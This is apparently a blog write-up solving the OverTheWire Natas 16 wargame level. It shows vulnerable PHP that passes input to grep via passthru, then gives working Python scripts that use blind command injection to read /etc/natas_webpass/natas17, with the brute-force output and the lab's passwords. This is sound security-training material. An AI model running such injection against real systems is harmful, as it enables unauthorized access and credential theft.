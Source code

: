 ```yaml
---
layout: post
title: "OverTheWire: Natas 16"
date: 2016-11-22 12:00:00
share: true
comments: true
tags: [OverTheWire - Natas]
---
```


```php
<pre>  
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {  
    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {  
    if(preg_match('/[;|&`\'"]/',$key)) {  
        print "Input contains an illegal character!";  
    } else {  
        passthru("grep -i \"$key\" dictionary.txt");  
    }  
}  
?>  
</pre>  
```

  
The source code shows that many characters can't be used, yet following the theme of the previous challenges, we can inject code...  

![15]({{ site.baseurl}}/images/15.png)

Unfortunately, it seems that injecting code with base64 encoded strings won't work, I tried something simple like `$(base64 -d <<< YQo=)` didn't work. Another way is using boolean based injection, just like our previous example! For that to work, we need to find a way to answer our question. One way is the fact that it shows data if substring exists, otherwise it's empty.  


Using that logic, we'll be interrogating the server:

Question: Does `/etc/natas_webpass/natas17` contain the letter a?  
Input: `doomed$(grep a /etc/natas_webpass/natas17)`
Output if Yes: _empty_
Output if No: `doomed`

Let's get our filtered character set first:

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
```

Next, we'll be using regex again to get the exact password (posting entire code):  

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```    

  
Output:
```
b  
bc  
bcd  
bcdg  
bcdgh  
bcdghk  
bcdghkm  
bcdghkmn  
bcdghkmnq  
bcdghkmnqr  
bcdghkmnqrs  
bcdghkmnqrsw  
bcdghkmnqrswA  
bcdghkmnqrswAG  
bcdghkmnqrswAGH  
bcdghkmnqrswAGHN  
bcdghkmnqrswAGHNP  
bcdghkmnqrswAGHNPQ  
bcdghkmnqrswAGHNPQS  
bcdghkmnqrswAGHNPQSW  
bcdghkmnqrswAGHNPQSW3  
bcdghkmnqrswAGHNPQSW35  
bcdghkmnqrswAGHNPQSW357  
bcdghkmnqrswAGHNPQSW3578  
bcdghkmnqrswAGHNPQSW35789  
bcdghkmnqrswAGHNPQSW357890  
8  
8P  
8Ps  
8Ps3  
8Ps3H  
8Ps3H0  
8Ps3H0G  
8Ps3H0GW  
8Ps3H0GWb  
8Ps3H0GWbn  
8Ps3H0GWbn5  
8Ps3H0GWbn5r  
8Ps3H0GWbn5rd  
8Ps3H0GWbn5rd9  
8Ps3H0GWbn5rd9S  
8Ps3H0GWbn5rd9S7  
8Ps3H0GWbn5rd9S7G  
8Ps3H0GWbn5rd9S7Gm  
8Ps3H0GWbn5rd9S7GmA  
8Ps3H0GWbn5rd9S7GmAd  
8Ps3H0GWbn5rd9S7GmAdg  
8Ps3H0GWbn5rd9S7GmAdgQ  
8Ps3H0GWbn5rd9S7GmAdgQN  
8Ps3H0GWbn5rd9S7GmAdgQNd  
8Ps3H0GWbn5rd9S7GmAdgQNdk  
8Ps3H0GWbn5rd9S7GmAdgQNdkh  
8Ps3H0GWbn5rd9S7GmAdgQNdkhP  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPk  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c  
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw  
```

Natas 17 password is: `8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`
